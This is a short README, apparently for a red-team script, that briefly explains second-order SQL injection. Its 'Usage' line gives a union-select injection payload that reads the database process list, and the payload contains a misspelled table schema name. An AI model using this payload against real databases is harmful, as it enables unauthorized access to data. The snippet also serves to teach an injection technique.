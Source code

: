 #Red-Team #Vulnerability #Exploit #script #Payload 


## What is a second order SQLi?

#### Second order SQLi is basically the SQLi query won't work on the first time you send it, rather will work on visiting website or better call on second order.


## Usage:

#### `"' union select 1,right(info,24) from informaiton_schema.processlist;#`
